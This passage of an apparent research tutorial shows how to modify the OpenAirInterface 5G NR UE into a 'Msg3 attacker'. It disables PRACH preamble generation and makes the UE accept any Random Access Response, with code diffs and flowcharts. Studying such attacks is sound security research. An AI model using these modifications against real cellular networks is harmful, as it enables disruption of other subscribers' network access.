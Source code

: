 
### 2.2. Modify Regular OAI nrUE into Msg3 Attacker

<b>1. First, you need to know that OAI nrUE tracks the prach procedure in OAI nrUE is done in `nr_ue_prach_procedures()` function. So, we need to comment out `generate_nr_prach()` in line 1192 in `phy_procedures_nr_ue.c` to prevent this procedure from generating Msg1</b>

```c=1191
      start_meas_nr_ue_phy(ue, PRACH_GEN_STATS);
      //prach_power = generate_nr_prach(ue, gNB_id, frame_tx, nr_slot_tx); ///// WILFRID - COMMENT THIS LINE /////
      stop_meas_nr_ue_phy(ue, PRACH_GEN_STATS);
      if (cpumeas(CPUMEAS_GETSTATE)) {
        LOG_D(PHY,
              "[SFN %d.%d] PRACH Proc %5.2f\n",
              proc->frame_tx,
              proc->nr_slot_tx,
              ue->phy_cpu_stats.cpu_time_stats[PRACH_GEN_STATS].p_time / (cpuf * 1000.0));
      }
```

<b>1.5. This is a figure to describe what we did so far</b>

```mermaid
flowchart TD
    A(("nr_ue_prach_procedures()")) --> B{"prach_slot == nr_slot_tx"}
    B --> |yes| C["//generate_nr_prach()"]
    C --> D(("return"))
    B --> |no| D
```

<b>2. Next, OAI nrUE will only accept the RAR or Msg2 with RAPID equals to its Msg1. We need to modify this so it will accept any RAR. Modify line 4050 of `nr_ue_process_rar()` function in `nr_ue_procedures.c`</b>

```c=4050
    //if (rarh->RAPID == preamble_index) { ///// WILFRID - THIS IS BEFORE /////
    if (rarh->RAPID != 99) { ///// WILFRID - THIS IS AFTER /////
      // The MAC entity may stop ra-ResponseWindow (and hence monitoring for Random Access Response(s)) after
      // successful reception of a Random Access Response containing Random Access Preamble identifiers
      // that matches the transmitted PREAMBLE_INDEX.
      nr_timer_stop(&ra->response_window_timer);
```

<b>2.5. This is a figure to describe what we did so far</b>

```mermaid
flowchart TD
    A(("nr_ue_process_rar()")) --> B["//check number
    //of RAR payload"]
    B --> C["//get first
    //RAR payload"]
    C --> D{"//rarh->RAPID ==
    //preamble_index"}
    D --> |yes| E["handle_rar_reception()"]
    E --> F{"//is next RAR
    //payload exist?"}
    F --> |yes| G["//get next RAR payload"]
    G --> D
    D --> |no| F
    F ---> |no| H(("return"))
```
